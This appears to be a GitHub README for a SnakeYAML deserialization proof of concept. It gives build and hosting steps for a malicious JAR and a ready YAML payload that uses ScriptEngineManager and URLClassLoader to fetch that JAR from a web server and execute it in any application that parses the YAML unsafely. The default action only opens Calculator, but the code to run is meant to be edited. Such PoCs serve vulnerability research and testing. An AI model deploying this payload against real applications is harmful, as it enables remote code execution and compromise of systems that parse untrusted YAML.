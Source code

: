 # PoC SnakeYAML

## Usage

* Update the code in `src/pocsnakeyaml/PocScriptEngineFactory.java`, by default it will open the Calculator application on OS X
* Run `./build.sh` to compile the Java class and pack the JAR file
* Host the `poc.jar` file on your webserver or use a local webserver, for example `python3 -m http.server`

Use the following payload in the YAML file:

```yaml
some_var: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://localhost:8000/poc.jar"]]]]
```

## Disclaimer

This code is meant as proof-of-concept for vulnerabilities in projects using SnakeYAML on an unsafe way. I'm not related to SnakeYAML in any way and I'm not responsible for any activities of others using this PoC.
